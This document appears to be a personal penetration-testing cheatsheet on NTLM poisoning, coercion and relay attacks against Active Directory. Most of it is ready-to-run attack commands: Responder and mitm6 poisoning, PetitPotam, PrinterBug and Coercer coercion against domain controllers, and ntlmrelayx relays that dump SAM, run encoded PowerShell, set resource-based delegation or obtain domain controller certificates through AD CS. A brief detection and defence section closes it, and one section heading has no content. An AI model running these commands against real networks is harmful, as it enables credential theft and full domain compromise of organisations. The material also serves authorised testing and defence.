

# NTLM Relay & Coercion

## Up
- [[Active Directory]]

NTLM authentication can be **captured and relayed** to other services you don't have creds for — a foothold-from-nothing technique the base cheatsheet only alluded to ("relay attacks possible"). Combine **poisoning/coercion** (make a victim authenticate to you) with **relaying** (forward that auth to a target).

---

## Step 1 — Get victims to authenticate to you

### LLMNR / NBT-NS / mDNS poisoning (Responder)
When Windows fails DNS, it broadcasts LLMNR/NBT-NS asking "who is \\fileshare?" — answer "me" and capture **NetNTLMv1/v2**.

```bash
responder -I eth0 -wv                 # poison + capture hashes (Analyze: -A to just listen)
# captured NetNTLMv2 → crack offline (hashcat -m 5600) OR relay (below, turn Responder's SMB/HTTP OFF)
hashcat -m 5600 hashes.txt rockyou.txt
```

### mitm6 (IPv6 DNS takeover)
Windows prefers IPv6; spoof DHCPv6/DNS to become the victim's DNS → funnel auth to your relay. Devastating in default networks.
```bash
mitm6 -d corp.local
```

### Coercion — force a specific machine (often the DC) to auth
```bash
petitpotam.py <attacker-ip> <dc-ip>            # MS-EFSRPC (often unauth)
printerbug.py corp.local/user:pass@<target> <attacker-ip>   # MS-RPRN "Printer Bug" (SpoolSample)
coercer coerce -u user -p pass -t <target> -l <attacker-ip> # tries many methods (EFSR/RPRN/DFSNM…)
dfscoerce.py -u user -p pass -d corp.local <attacker-ip> <dc-ip>
```

---

## Step 2 — Relay the captured auth (ntlmrelayx)

**Requirement:** target must not enforce signing (SMB signing **off** → `nxc smb <range> --gen-relay-list targets.txt`). You cannot relay back to the same host (reflection is patched).

```bash
# relay to SMB → dump SAM / exec on a signing-disabled host
impacket-ntlmrelayx -tf targets.txt -smb2support
impacket-ntlmrelayx -t smb://<host> -smb2support -c 'powershell -enc <b64>'

# relay to LDAP(S) → grant RBCD or add a computer (needs LDAP; from coercion)
impacket-ntlmrelayx -t ldaps://<dc> --delegate-access --escalate-user EVIL$   # sets RBCD → impersonate
impacket-ntlmrelayx -t ldap://<dc> --add-computer EVIL --dump-adcs

# relay to AD CS Web Enrollment (ESC8) → get a cert for the victim → its TGT (see [[AD CS Attacks]])
impacket-ntlmrelayx -t http://<ca>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

### The classic chains


---

## Detection & Defense
- **Disable LLMNR/NBT-NS/mDNS**; disable IPv6 if unused (or block rogue DHCPv6/RA).
- **Enforce SMB signing** everywhere (kills SMB relay); enforce **LDAP signing + channel binding** (kills LDAP relay).
- Patch/mitigate coercion (PetitPotam KB, disable Spooler on DCs); **Extended Protection for Authentication** on ADCS web enrollment (ESC8).
- Detect: many NetNTLM auths to one host, machine accounts authenticating oddly, `certsrv` from unusual sources.

---

## Takeaways
- **Poison/coerce → relay** turns *no creds* into SAM dumps, RBCD, or (via **ESC8**) DC-level compromise.
- **Responder + ntlmrelayx** and **mitm6 + ntlmrelayx** are the bread-and-butter internal-network chains.
- **Coercion (PetitPotam/PrinterBug) → ADCS ESC8 → DC cert → DCSync** is a top modern path — see [[AD CS Attacks]] and [[Delegation Attacks]].
- Relayed NetNTLM that you *can't* relay, **crack** instead ([[Password Cracking]] `-m 5600`).
